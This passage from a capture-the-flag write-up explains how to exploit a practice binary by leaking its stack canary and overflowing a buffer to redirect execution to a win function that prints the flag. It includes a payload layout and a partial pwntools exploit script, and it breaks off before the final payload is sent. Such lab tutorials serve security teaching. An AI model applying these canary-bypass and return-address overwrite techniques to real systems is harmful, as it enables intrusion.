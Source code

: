 Hence, in order to win with this function, we just need to overwrite `input`, followed by `$rbp`, followed by the canary, followed by `$rbp` again, then overwrite `$rip` with whatever address we need.

Our payload would hence look something like:
```
        "a" x 16 to fill up input
                    +
        "a" x 8 to fill up $rbp
                    +
      canary value to fill up canary
                    +
        "a" x 8 to fill up $rbp
                    +
whatever address we need to overwrite $rip
```

There is also one more function that exists within the source code that will be important to us:
```c
int escape() {
    printf("My canary has escaped!\n");
    system("cat flag.txt");
}
```

This is our win function as it calls `system("cat flag.txt")` for us.

Let's break down what we know:
- `talk()` leaks the canary for us if we fulfill the condition of `input` = `password`
- `poison()` lets us perform a buffer overflow attack
- `escape()` is the function we want to call in order to win

If we chain all our knowledge for exploiting each of the functions together, we will need to:
1. Input option 1 to call `talk()`
2. Send our payload for `talk()`
3. Retrieve the printed canary value and save it
4. Input option 3 to call `escape()`
5. Send our payload for `escape()`

With pwntools, our script would look something like this:
```py
from pwn import *

# Run binary
p = process("./challenge")
# You would use something like
# p = remote("some.providedwebsite.org", port_number)
# replacing the website with the one we provided,
# and port_number similarly with the one we provided

win = 0x40128e  # the address value of win+5

# select option 1
p.sendlineafter(b"Option: ", b"1")
# send payload for talk(), which is
# "a" x 32
p.sendlineafter(b"say?\n", b"a"*32)
# receive until "canary!\n"
# then grab the canary value
p.recvuntil(b"canary!\n")
canary = int(p.recvline().strip(), 16)
# for debugging purposes, you can print
# the value to check
print(f"{hex(canary) = }")

# select option 3
p.sendlineafter(b"Option: ", b"3")
```